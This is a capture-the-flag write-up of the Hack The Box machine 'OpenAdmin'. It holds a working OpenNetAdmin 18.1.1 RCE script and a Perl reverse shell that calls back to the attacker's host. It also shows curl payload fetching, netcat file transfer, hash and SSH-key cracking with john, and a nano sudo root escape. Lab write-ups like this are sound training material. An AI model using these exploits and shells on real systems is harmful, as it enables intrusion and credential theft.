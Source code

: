# OpenAdmin
This box can be quite a pain for beginners to do, but the troubleshooting part is enough to learn some useful new tricks.

![OpenAdmin](../Images/htb_openadmin_1.png)

**Tools: nmap, gobuster, netcat, LinEnum/LinPEAS, ssh2john, john.**

We begin with the nmap scan:
> nmap -Pn -sV -sC --min-rate=10000 -p- 10.10.10.171

![OpenAdmin](../Images/htb_openadmin_2.png)

With port 80 open, we can take a look at the webpage, and meanwhile run a fuzzer with gobuster:  
(Try a lower value [like 100, or use the default 10] for the -t flag if any error occurs)
> gobuster dir -u http://10.10.10.171/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 300

![OpenAdmin](../Images/htb_openadmin_3.png)

We're able to find the directories 'artwork', 'music' and 'sierra'. After some testing, we can see that in the 'music' directory, if we click on the 'Login' button we're redirected to the '/ona' directory.

![OpenAdmin](../Images/htb_openadmin_4.png)

This seems to be the OpenNetAdmin dashboard, and in here we can see the application's version (v18.1.1).

![OpenAdmin](../Images/htb_openadmin_5.png)

With this information, we can go straight to [exploit-db](https://www.exploit-db.com/) and look for an exploit.

![OpenAdmin](../Images/htb_openadmin_6.png)

There's an RCE exploit available for download. The code wasn't working for me, so I had to make a few changes (identation/spacing, mostly), so here's what worked for me:

```
#!/bin/bash
URL="${1}"
while true;do
    echo -n "$ "; read cmd
    curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e'/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

Now we can simply run the shell script:

```
chmod +x 47691.sh
./47691.sh 10.10.10.171/ona/
```

![OpenAdmin](../Images/htb_openadmin_7.png)

And we have a shell.  
Now this is the part that took me some time to figure out. My attempts to spawn a fully interactive tty shell or start a reverse shell were always met with errors or simply a connection drop (I was monitoring it with 'tcpdump -i tun0'). So this is what worked for me:  
First of all, put a perl reverse shell code inside a file, let's call it revs.pl (it's a one-liner - remember to change the IP to your tun0 IP):  

```
perl -e 'use Socket;$i="10.10.14.245";$p=16501;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Next, start a python simple http server in the same folder of the perl file in your machine to send the exploit to the target:
> python3 -m http.server 80

In another terminal window, start a netcat listening session:
> nc -vnlp 16501

Now inside of the shell that we've got earlier with the exploit:

```
curl 10.10.14.245/revs.pl > revs.pl (use your tun0 IP)
chmod 777 revs.pl (give the file permission to run)
./revs.pl (run the script)
```

You'll get a shell in the netcat window, now we can finally spawn a fully interactive shell:
> python3 -c 'import pty;pty.spawn("/bin/bash")'

![OpenAdmin](../Images/htb_openadmin_8.png)

Now we need to enumerate the box.  
This next step didn't give many good results, but I'll write it down because it was a bit of a pain, and I've learned a few new tricks. With LinPeas I couldn't get it to save the output to a file without breaking the results completely, so I decided to use LinEnum.
> git clone https://github.com/rebootuser/LinEnum.git  
> cd LinEnum  

Start once again a python3 http server, and then curl the linenum.sh file to the target. After that, give the script permissions and run it:
> chmod 777 linenum.sh  
> ./linenum.sh -r result -e . -t

When it finishes, use netcat to send the file to your machine:
> nc -q 5 -vnlp 9068 < result-16-07-21

Then, in your machine, download the file through netcat and read it using 'less':
> nc -v 10.10.10.171 9068 > result-16-07-21  
> cat result-16-07-21 | less

![OpenAdmin](../Images/htb_openadmin_9.png)

Now we still need to manually enumerate the box.  
At /var/www/ we can see that the directory 'internal' can only be accessed by the user 'jimmy'. Further enumeration takes us to /var/www/html/ona/local/config and inside the ona database configuration file 'database_settings.inc.php' we can see that there's the user 'ona_sys' and an exposed password 'n1nj4W4rri0R!'.

![OpenAdmin](../Images/htb_openadmin_10.png)

We can try to SSH into jimmy's account with that password:

![OpenAdmin](../Images/htb_openadmin_11.png)

And now we are able to access the /var/www/internal directory.  
If we read the php files, we can see a hashed password (SHA512) in the index.php.  

![OpenAdmin](../Images/htb_openadmin_12.png)

We can crack it with an online tool such as [Crackstation](https://crackstation.net/), but we can also use John - save the hash to a hash.txt file:
> john hash.txt --format=Raw-SHA512 --wordlist=/usr/share/wordlists/rockyou.txt --rules=Jumbo

We'll get the password 'Revealed'. This is useful if you use the SSH port forwarding/tunneling technique to pwn this box, but I won't use that because I had some trouble with it, so this password won't have much use.  
Now reading the main.php we can see the following:

![OpenAdmin](../Images/htb_openadmin_13.png)

Without even knowing a lot about php code, we can already notice the chance that this file might be leaking an ssh private key.  

I got stuck at this point and had to get some help. We could either run 'ss -lnpt', 'netstat -naep | grep LISTEN | grep -v LISTENING' or read the file '/etc/apache2/sites-enabled/internal.conf'. Either way we'll find that there's an internal virtual host running on 127.0.0.1:52846 as user 'joanna'.

![OpenAdmin](../Images/htb_openadmin_14.png)

With this information, we could either create an SSH port forwarding/tunneling, or try to curl the main.php file:
> curl 127.0.0.1:52846/main.php

And we're lucky, because this works. We can save the key (I'm using its original filename):

![OpenAdmin](../Images/htb_openadmin_15.png)

Now we can run ssh2john toconvert the key to a format that can be cracked with john: 
> /usr/share/john/ssh2john.py id_rsa > hash  
> john hash --wordlist=/usr/share/wordlists/rockyou.txt

![OpenAdmin](../Images/htb_openadmin_16.png)

The password we get is 'bloodninjas'.  
Next up, we can use the ssh key and the password to access joanna's account through SSH:
> chmod 600 id_rsa  
> ssh -i id_rsa joanna@10.10.10.171

![OpenAdmin](../Images/htb_openadmin_17.png)

At joanna's home directory we can grab the user flag (user.txt).  
The escalation of privileges is the easiest part of this box. We simply check what files joanna can run as root:
> sudo -l

![OpenAdmin](../Images/htb_openadmin_18.png)

And, based on the results, we can use a simple nano sudo privesc from [GTFObins](https://gtfobins.github.io/gtfobins/nano/#sudo):
> sudo -u root /bin/nano /opt/priv

Inside the nano file, first press Ctrl+R then Ctrl+X and then type the command to be executed:
> reset; sh 1>&0 2>&0

Press enter and you'll be root. Now just grab the root flag at /root/root.txt and you're done!

![OpenAdmin](../Images/htb_openadmin_19.png)

Thats it, a very extensive box that requires quite a bit of troubleshooting and some very specific knowledge, but it's a great learning experience!  

Thanks for reading and keep hacking!
